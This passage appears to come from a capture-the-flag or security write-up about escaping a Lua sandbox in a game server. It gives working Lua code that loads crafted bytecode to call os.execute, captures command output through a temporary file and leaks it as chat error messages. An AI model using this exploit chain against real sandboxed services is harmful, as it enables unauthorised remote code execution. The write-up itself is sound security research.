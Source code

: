 The exploits I found wouldn't work directly out-of-the-box because they use certain functions that are restricted by the sandbox, so we would have to try and adapt one of these. But before really diving into that, I wanted to play around a little bit with the environment and see how loading bytecode works. More specifically, I wondered: what exactly prevents us from calling arbitrary functions from libraries such as `os` or `io`?

I compiled a simple function that calls `os.execute` into **Lua bytecode** (using `string.dump(func)`), rewrote example.lua to the following, and ran the sandbox locally: against all odds, it worked.

```lua
f = load_state('<bytecode for a function that calls os.execute>')
f("id")

-- Needed to comply with the game bridge
yourActions = {}
yourActions[1] = {
    Action = { TokenNumber = 5, AddToID = 0 },
    Delay = 1337
}

return yourActions
```

Using this trick, we can basically run anything we want and achieve code execution on the remote. Now, we don't have the standard output for the commands we run, and the container has no Internet access, so we need to find another way to exfiltrate the output. We could use the integers that are returned inside the "actions" structure (e.g. `Delay`), but there's actually a more efficient way. We can compile the following Lua function and use it to **print arbitrary data as an error string in the chat**:

```lua
h = function(a)
    assert(false, a)
end
```

Another problem is that for some reason, `io.popen` is disabled in this Lua build, so I chose instead to leverage an intermediary file:

```lua
g = function(a)
    os.execute(a .. " > /tmp-rw/test.txt")
    local f = io.open("/tmp-rw/test.txt", "r")
    local res = f:read("*a")
    return res
end
```

We can now read the result of arbitrary commands by uploading this script:

```lua
get_cmd_output = load_state('\027\076\117\097\082\000...') -- bytecode of the g function
print_err = load_state('\027\076\117\097\082\000...') -- bytecode of the h function

x = get_cmd_output("id")
print_err(x)

yourActions = {}
yourActions[1] = {
  Action = { TokenNumber = 5, AddToID = 0 },
  Delay = 1337
}

return yourActions
```
